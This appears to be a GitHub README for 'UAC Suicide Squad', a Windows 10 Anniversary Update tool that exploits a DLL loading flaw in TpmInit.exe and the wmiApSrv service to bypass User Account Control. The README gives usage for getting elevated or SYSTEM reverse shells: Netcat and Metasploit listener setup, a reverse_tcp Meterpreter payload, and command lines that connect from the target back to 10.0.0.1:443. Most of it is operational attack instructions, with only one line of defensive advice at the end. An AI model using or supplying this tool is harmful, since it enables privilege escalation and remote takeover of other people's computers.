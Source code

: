 ```
   ______                ____      _ __
  /_  __/___  ____ ___  /  _/___  (_) /_
   / / / __ \/ __ `__ \ / // __ \/ / __/
  / / / /_/ / / / / / // // / / / / /_
 /_/ / .___/_/ /_/ /_/___/_/ /_/_/\__/
    /_/
               UAC Suicide Squad v1.1
       Windows 10 Anniversary Edition
                      By Cn33liz 2016
```

A tool to Bypass User Account Control (UAC), to get a High Integrity (or SYSTEM) Reversed Command shell, 
a reversed PowerShell session, or a Reversed Meterpreter session.
When TpmInit.exe starts, it first tries to load the wbemcomn.dll within C:\Windows\System32\wbem.
This DLL cannot be found in that folder, so it tries to load the DLL again, but then in C:\Windows\System32.
This tool exploits this DLL loading vulnerability within TpmInit.exe, which runs auto-elevated by default.
Same issue also applies to the WMI Performance Adapter service (wmiApSrv) which runs with SYSTEM privileges.
So while we can use TpmInit.exe to get Elevated priviliges, we can also use it to start the wmiApSrv service,
and get a SYSTEM shell using our custom DLL :)

Works on:

```
This version only works on Windows 10 x64 with the Anniversary Update applied (Version 1607).
```

Compile:

```
This project is written in C/C++ using Windows API calls, so you need Visual Studio to compile.
Source code of the needed dll's are included within the project, but not needed to run the tool.
They are embedded within the main executable (as Base64 encoded and compressed binaries).
```

### How to use it:

```
* [>] Usage: First setup a remote Netcat, Ncat or Meterpreter(x64) listener
* [>] Example: KickAss@PenTestBox:~$ sudo ncat -lvp 443

* [>] Or for msf: KickAss@PenTestBox:~$ sudo msfconsole
* [>] msf > use exploit/multi/handler
* [>] msf exploit(handler) > set payload windows/x64/meterpreter/reverse_tcp
* [>] msf exploit(handler) > set LHOST 10.0.0.1
* [>] msf exploit(handler) > set LPORT 443
* [>] msf exploit(handler) > exploit -j

* [>] Then on your target: TpmInitUACBypass.exe <Remote Listener IP> <Port> <powershell, cmd or msf> <system>

* [>] Example1: Remote Elevated Cmd Shell:   TpmInitUACAnniversaryBypass.exe 10.0.0.1 443 cmd
* [>] Example2: Remote SYSTEM Cmd Shell:     TpmInitUACAnniversaryBypass.exe 10.0.0.1 443 cmd system
* [>] Example3: Remote Elevated PowerShell:  TpmInitUACAnniversaryBypass.exe 10.0.0.1 443 powershell
* [>] Example4: Remote SYSTEM PowerShell:    TpmInitUACAnniversaryBypass.exe 10.0.0.1 443 powershell system
* [>] Example5: Remote Elevated Meterpreter: TpmInitUACAnniversaryBypass.exe 10.0.0.1 443 msf
* [>] Example6: Remote SYSTEM Meterpreter:   TpmInitUACAnniversaryBypass.exe 10.0.0.1 443 msf system
```

### Strong Advice

* Do not use accounts with Administrative privileges for daily computer usage!
